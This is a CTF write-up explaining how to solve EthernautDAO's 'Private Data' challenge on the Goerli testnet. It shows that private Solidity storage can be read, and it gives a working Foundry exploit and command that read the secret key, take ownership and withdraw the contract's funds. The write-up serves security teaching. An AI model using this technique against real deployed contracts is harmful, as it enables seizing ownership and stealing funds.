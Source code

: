 ```yaml
---
title: 'EthernautDAO CTF — Private Data Solution'
excerpt: ΞthernautDAO is common goods DAO aimed at transforming developers into Ethereum developers. </br></br>Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership`  and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.
coverImage:
  url: '/assets/blog/ethernautdao.jpeg'
  credit:
    name: ΞthernautDAO
    url: https://twitter.com/EthernautDAO
date: '2022-07-11T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernautdao.jpeg'
---
```


[ΞthernautDAO](https://twitter.com/EthernautDAO) is common goods DAO aimed at transforming developers into Ethereum developers.

They started releasing CTF challenges on Twitter, so how couldn't I start solving them?

[https://twitter.com/EthernautDAO/status/1543957806532833282](https://twitter.com/EthernautDAO/status/1543957806532833282)

# CTF 1: Private Data

The contract [0x620e0c88e0f8f36bcc06736138bded99b6401192](https://goerli.etherscan.io/address/0x620e0c88e0f8f36bcc06736138bded99b6401192) has been deployed on the Goerli network.

> Anyone can deposit ether, but only the owner can withdraw
> During contract creation a secret key is set, which allows o transfer ownership of the contract

Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership` and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.

## Study the contracts

Let's start by reading the `constructor` code

```solidity
constructor(string memory rndString) {
    owner = msg.sender;

    // create a random number and store it in a private variable
    secretKey = uint256(
        keccak256(
            abi.encodePacked(
                blockhash(block.number - 1),
                block.timestamp,
                rndString
            )
        )
    );
}
```

Inside the `constructor` the deployer set up the `owner` equal to `msg.sender` and then initialize a `secretKey`.

To become the new owner of the contract and be able to call `takeOwnership` we must be able to reconstruct this secret key.

The first thing that you must remember when you use or develop on the blockchain is that **nothing** is private in the blockchain. Everything can be seen even if you declare a variable as `private` or `internal`. I suggest you to read more about this concept by reading [“SWC-136: Unencrypted Private Data On-Chain”](https://swcregistry.io/docs/SWC-136).

I'm saying this because the owner of the contract would think that there is no way that I would be able to read directly a `private` state variable. But in reality, we have two different way to do that:

1. you could re-construct the key by reviewing the deployment data on Etherscan or Tenderly
2. you could just fork the Goerli network in a block after the deployment and use [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html) to read the slot where that value is stored

We will go with the second options just because I think that it's more fun :D

First, we need to understand how the [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage) work.

- Each storage slot will use 32 bytes (word size)
- For each variable, a size in bytes is determined according to its type
- Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible according to the following rules:
  - The first item in a storage slot is stored lower-order aligned.
  - Value types use only as many bytes as are necessary to store them.
  - If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
  - Structs and array data always start a new slot and their items are packed tightly according to these rules.
  - Items following struct or array data always start a new storage slot.

Let's now look at the Contract variables layout:

```solidity
    uint256 public constant NUM = 1337;
    address public owner;
    bytes32[5] private randomData;
    mapping(address => uint256) public addressToKeys;
    uint128 private a;
    uint128 private b;
    uint256 private secretKey;
```

First thing to note is that `constant` and `immutable` variables will not take a storage slot because they will be directly replaced in the code at compile time or during deployment time (immutable). See more on the ["Constant and Immutable State Variables"](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables) documentation page.

So let's make some math, given each variable type we can know which slot they will use:

- `owner` will be at **slot0**
- `randomData` will take slot **from slot1 to slot5** because it is a static array of five elements
- `addressToKeys` will take **slot6**. For mapping and dynamic arrays, it's the layout is a little more complicated, but it's not relevant for this challenge. I anyway suggestion to read more on ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays) documentation page.
- `a` and `b` variable will use the same **slot7** because they take in total 32 bytes
- This mean that our `secretKey` variable will take **slot8**!

Why is so important to know which slot is used by our variable?

Because by forking the chain and by using Foundry Cheatcode we can directly read a Contract's slot value in a specific block in time even if the variable is private!

## Solution code

Now what we need to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork, read the slot, print it out and boom! We know which is the `secretKey`

Here's the code that I used for the test:

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "./utils/BaseTest.sol";
import "src/PrivateData.sol";

contract PrivateDataTest is BaseTest {
    PrivateData private privateData;

    constructor() {
        string[] memory userLabels = new string[](2);
        userLabels[0] = "Alice";
        userLabels[1] = "Bob";
        preSetUp(2, 100 ether, userLabels);
    }

    function setUp() public override {
        // Call the BaseTest setUp() function that will also create testsing accounts
        super.setUp();

        // Attach the contract to the addresses on the fork
        privateData = PrivateData(payable(0x620E0c88E0f8F36bCC06736138bDEd99B6401192));

        vm.label(address(privateData), "PrivateData");
    }

    function testTakeOwnership() public {
        address player = users[0];
        vm.startPrank(player);

        // assert we are not the owners
        address owner = privateData.owner();
        assertEq(owner == player, false);

        // load the secret key slot from slot 9
        bytes32 secretKeyBytes = vm.load(address(privateData), bytes32(uint256(8)));
        uint256 secretKey = uint256(secretKeyBytes);

        console.log("secretKey", secretKey);

        // take the ownership of the contract
        privateData.takeOwnership(secretKey);

        // assert we are the onwer
        assertEq(privateData.owner(), player);

        // withdraw all the funds, if we are the owner it shoud not revert
        privateData.withdraw();

        vm.stopPrank();
    }
}
```

Here is the command I have used to run the test: `forge test --match-contract PrivateDataTest --fork-url <your_rpc_url> --fork-block-number 7178864 -vv`

Just remember to replace `<your_rpc_url>` with the RPC URL you got from Alchermy or Infura.

Now we can go directly on Etherscan and call `takeOwnership` passing the `secretKey` we just printed in the console.

You can read the full solution of the challenge, opening [PrivateData.t.sol](https://github.com/StErMi/ethernautdao-ctf/blob/main/test/PrivateData.t.sol)

## Further reading

- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html)
- [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage)
- [Constant and Immutable State Variables](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables)
- ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
